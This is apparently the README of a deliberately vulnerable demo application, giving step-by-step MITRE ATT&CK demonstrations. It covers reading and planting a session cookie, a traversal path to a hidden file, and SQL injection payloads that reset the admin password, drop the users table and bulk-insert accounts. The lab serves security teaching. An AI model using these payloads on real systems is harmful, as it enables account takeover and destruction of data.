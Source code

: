 # Demonstration Instructions for MITRE Techniques
A simple application for demonstrating MITRE ATT&amp;CK techniques

## 1. Steal Session Token or Set Your Own
- **Steal the token** using the console command:
  
  ```javascript
  console.log(document.cookie);
  ```

- **Set your own session token**:
  
  ```javascript
  document.cookie = "session_token=nfyyobG1qSZmpoOcYSZd; path=/";
  ```

## 2. Log in Using the Session Token
- Use the session token obtained or set in step 1 to access the account without entering credentials.

## 3. Find Hidden File Using Directory Traversal
- Access the hidden file by navigating to the following path:

  ```
  /.../.../.../secret.txt
  ```

## 4. Reset the Admin Password Using SQL Injection
- Use the following SQL injection to set the admin's password to `1`:

  ```sql
  ' OR 1=1; UPDATE users SET password = '1' WHERE username = 'admin';--
  ```

## 5. Delete the Users Table
- Execute this SQL injection to drop the entire `users` table:

  ```sql
  ' OR 1=1; DROP TABLE users;--
  ```

## 6. Populate the Users Table with a Large Number of Users
- Insert 1000 different users into the `users` table using this SQL injection:

  ```sql
  ' OR 1=1; INSERT INTO users (username, password, role) SELECT 'user'||a.id, 'pass'||a.id, 'user' FROM (SELECT 1 AS id UNION ALL SELECT 2 UNION ALL SELECT 3 UNION ALL SELECT 4 UNION ALL SELECT 5 UNION ALL SELECT 6 UNION ALL SELECT 7 UNION ALL SELECT 8 UNION ALL SELECT 9 UNION ALL SELECT 10) AS a, (SELECT 1 AS id UNION ALL SELECT 2 UNION ALL SELECT 3 UNION ALL SELECT 4 UNION ALL SELECT 5 UNION ALL SELECT 6 UNION ALL SELECT 7 UNION ALL SELECT 8 UNION ALL SELECT 9 UNION ALL SELECT 10) AS b, (SELECT 1 AS id UNION ALL SELECT 2 UNION ALL SELECT 3 UNION ALL SELECT 4 UNION ALL SELECT 5 UNION ALL SELECT 6 UNION ALL SELECT 7 UNION ALL SELECT 8 UNION ALL SELECT 9 UNION ALL SELECT 10) AS c LIMIT 1000;--
  ```

## Important Note
These demonstrations are intended only for educational and security research purposes. Do not attempt these actions on any system without proper authorization.
